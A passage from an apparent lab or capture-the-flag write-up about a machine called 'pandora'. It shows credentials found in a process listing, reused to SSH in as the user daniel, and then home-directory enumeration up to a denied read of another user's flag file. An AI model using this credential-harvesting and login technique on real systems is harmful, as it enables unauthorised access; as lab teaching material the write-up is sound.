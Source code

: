 ### Creds

Looking through the process list, there's a process that's running a
script, `/usr/bin/host_check`, which seems like it may be passing a
username and password:



    ...[snip]...
    0852 sh -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
    ...[snip]...
    1115 host_check -u daniel -p HotelBabylon23
    ...[snip]...



### SSH

These creds work to SSH as daniel:



    oxdf@hacky$ sshpass -p 'HotelBabylon23' ssh daniel@10.10.11.136
    ...[snip]...
    daniel@pandora:~$ 



## Shell as matt

### Enumeration

#### Home Dirs

There's nothing at all in daniel's home directory:



    daniel@pandora:~$ ls -la
    total 28
    drwxr-xr-x 4 daniel daniel 4096 May 18 23:52 .
    drwxr-xr-x 4 root   root   4096 Dec  7 14:32 ..
    lrwxrwxrwx 1 daniel daniel    9 Jun 11  2021 .bash_history -> /dev/null
    -rw-r--r-- 1 daniel daniel  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 daniel daniel 3771 Feb 25  2020 .bashrc 
    drwx------ 2 daniel daniel 4096 May 18 23:52 .cache
    -rw-r--r-- 1 daniel daniel  807 Feb 25  2020 .profile
    drwx------ 2 daniel daniel 4096 Dec  7 14:32 .ssh 



There's another user with a home directory, matt, and that has
`user.txt`, but daniel can't read it:



    daniel@pandora:/home$ ls     
    daniel  matt                  
    daniel@pandora:/home$ ls matt/ 
    user.txt                
    daniel@pandora:/home$ cat matt/user.txt 
    cat: matt/user.txt: Permission denied
